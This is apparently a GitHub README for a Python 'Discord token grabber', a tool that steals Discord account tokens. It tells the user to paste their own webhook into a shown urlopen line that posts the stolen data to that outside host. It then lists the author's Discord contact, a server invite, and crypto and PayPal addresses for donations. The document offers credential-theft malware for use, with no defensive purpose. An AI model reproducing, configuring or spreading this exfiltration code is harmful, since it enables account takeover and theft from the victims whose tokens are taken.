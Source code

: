 # Simple-Discord-Token-Grabber
Simple Discord Token Grabber in PYTHON

**Usage**:

PUT YOUR WEBHOOK IN 

**urlopen(Request("PUT YOUR WEBHOOK HERE", data=dumps(webhook).encode(), headers=getheaders()))**

Discord: $MartoBossX#7777 Server: https://discord.gg/ErynDxTV5Y

DONATE:

(Crypto)

BTC: bc1qg85m6x2hc7szny9jf35fvedrn5wmqp7sdznszq

ETH: 0x59b1292D0533932A80e19AaCF0Db4287fc9361Ae

(PayPal)

https://paypal.me/paytowiner
